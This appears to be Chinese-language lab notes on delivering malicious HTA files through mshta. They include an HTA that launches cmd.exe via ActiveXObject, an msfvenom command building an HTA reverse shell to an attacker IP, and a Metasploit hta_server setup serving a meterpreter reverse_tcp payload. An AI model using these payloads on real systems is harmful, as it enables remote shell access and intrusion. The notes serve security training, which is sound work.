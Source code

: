 HTA 代表“HTML 应用程序”。它允许您创建一个可下载文件，其中包含有关如何显示和渲染的所有信息。 HTML 应用程序，也称为 HTA，是包含 JScript 和 VBScript 的动态 HTML 页面。 LOLBINS（Living-of-the-land Binaries）工具mshta用于执行HTA文件。它可以自行执行或从 Internet Explorer 自动执行。
在下面的示例中，我们将在有效负载中使用 ActiveXObject 作为执行 cmd.exe 的概念证明。考虑以下 HTML 代码。
```javascript
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```
在受害计算机上，使用 Microsoft Edge 访问恶意链接，http://10.8.232.37:8090/payload.hta。请注意，10.8.232.37 是 AttackBox 的 IP 地址。
![[Pasted image 20240507165651.png]]
一旦我们按下“运行”，payload.hta 就会被执行，然后它将调用 cmd.exe。下图说明我们已经成功执行了cmd.exe.
![[Pasted image 20240507165717.png]]
我们可以创建一个反向 shell  payload
```
user@machine$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload [-] No arch selected, selecting arch: x64 from the payload No encoder specified, outputting raw payload Payload size: 460 bytes Final size of hta-psh file: 7692 bytes Saved as: thm.hta
```
我们使用 Metasploit 框架中的 msfvenom 生成恶意负载以连接回攻击机器。我们使用以下有效负载将 windows/x64/shell_reverse_tcp 连接到我们的 IP 和侦听端口。

通过 Metasploit 的恶意 HTA
--
还有另一种方法可以使用 Metasploit 框架生成和提供恶意 HTA 文件。首先，使用 msfconsole -q 命令运行 Metasploit 框架。在exploit部分下有exploit/windows/misc/hta_server，需要选择并设置LHOST、LPORT、SRVHOST、Payload等信息，最后执行exploit来运行该模块。
```
msf6 > use exploit/windows/misc/hta_server msf6 exploit(windows/misc/hta_server) > set LHOST 10.8.232.37 LHOST => 10.8.232.37 msf6 exploit(windows/misc/hta_server) > set LPORT 443 LPORT => 443 msf6 exploit(windows/misc/hta_server) > set SRVHOST 10.8.232.37 SRVHOST => 10.8.232.37 msf6 exploit(windows/misc/hta_server) > set payload windows/meterpreter/reverse_tcp payload => windows/meterpreter/reverse_tcp msf6 exploit(windows/misc/hta_server) > exploit [*] Exploit running as background job 0. [*] Exploit completed, but no session was created. msf6 exploit(windows/misc/hta_server) > [*] Started reverse TCP handler on 10.8.232.37:443 [*] Using URL: http://10.8.232.37:8080/TkWV9zkd.hta [*] Server started.
```
在受害计算机上，一旦我们访问 Metasploit 作为 URL 提供的恶意 HTA 文件，我们应该会收到反向连接。
